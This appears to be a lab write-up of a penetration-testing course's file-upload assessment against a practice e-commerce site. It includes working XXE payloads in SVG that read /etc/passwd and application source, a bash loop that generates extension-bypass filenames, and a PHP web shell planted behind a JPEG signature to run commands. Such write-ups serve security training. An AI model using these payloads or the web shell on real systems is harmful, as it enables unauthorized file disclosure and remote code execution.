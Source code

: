 # Skills Assessment

#### You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

***



For this Skills Assessment we have a web application with some default content, and we have to test the upload screenshot feature to test if there is any vulnerability.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

The main focus of this assessment is this page. We can access it by clicking in **Contact Us**. To capture the essential requests we don't need to actually submit the data, just press the green and black button above.

<figure><img src="../../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

The POST Request should look something like this. And as we can see from the Response, we don't have  an actual storage location of the image.

Since we got a **base64** encoded string from the Response, we can try if we can retrieve the upload.php script from the server, and see where the images are being saved.

<figure><img src="../../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

Just by modifying the filename with a **.svg** extension we can execute XML code on the backend. Fortunately the the application does not have any protection to this and as we can see from the output above we manage to get the /etc/passwd with this code:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

<figure><img src="../../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

Since we confirmed the web application is vulnerable to XXE, we can use this to read the web application's source files:

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}

Now all we have to do is decode the **base64** string and hope that we got the source code of the upload.php file.

We can use the following command to do it:

```bash
echo "base64_string" | base64 --decode
```

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

We manage to read the **upload.php** script! The **$target\_dir** indicates where the images are being saved. Also notice that the **$fileName** gives us an important information, the dog.jpeg is renamed to **currentdate\_dog.jpeg** once gets uploaded to the server. This important in order to try to reach the image.

<figure><img src="../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we manage to get the actual image URL. It should look something like this:

**`http://SERVER_IP:PORT/contact/hiddenpath/currentdate_filename.ext`**

\
Now lets try to bypass any image upload filtering.

<figure><img src="../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

We can use the same request used previously, we send it to the Intruder and made the following changes:

Add the selection to the filename

Keep the **ÿØÿà** - this is the ÿØÿà that will make the server read the content as a jpg file

Add the \<?php echo "shell test";?> to test the code execution

Create a word list with the following code:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do                      
    for ext in '.jpeg' '.jpg'; do
        echo "shell$char$ext.svg" >> wordlist.txt
        echo "shell$ext$char.svg" >> wordlist.txt
        echo "shell.svg$char$ext" >> wordlist.txt
        echo "shell.svg$ext$char" >> wordlist.txt
    done
done
```

Lastly, make sure to disable URL encoding and launch the attack.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

With this Request format we should look to the ones with a lenght over 366. In this case we select the **shell.phar:.jpg**.



<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And the PHP code was executed!

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now, lets send the same Request to the Repeater and make an actual shell.&#x20;

Add the **shell.phar:.jpg** to the filename and `<?php system($_REQUEST['cmd']); ?>` after the **ÿØÿà** signature and send it!

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We add the **?cmd=id** to the URL and we are able to successfully execute a command!

<figure><img src="../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we just have fun wandering around to look for the flag and eventually made it!

